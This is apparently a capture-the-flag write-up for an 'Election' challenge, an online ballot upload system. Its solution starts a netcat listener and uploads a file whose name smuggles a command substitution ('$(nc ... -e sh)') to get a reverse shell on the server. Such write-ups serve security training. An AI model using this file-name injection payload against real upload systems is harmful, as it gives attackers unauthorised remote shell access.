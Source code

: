 # Election

Zlatoust is holding their yearly election for city mayor. This year, they've upgraded to an online ballot submission system. Can you find a way to hack it?

>**Note**: This challenge does not involve any bruteforcing/dirbusting.

## Solution

1. Term 1: `nc -lvp 1337`
2. Term 2: `touch 'test.$(nc 127.0.0.1 1337 -e sh);pdf'`

Upload the file created in Term 2 for a shell callback in Term 1.
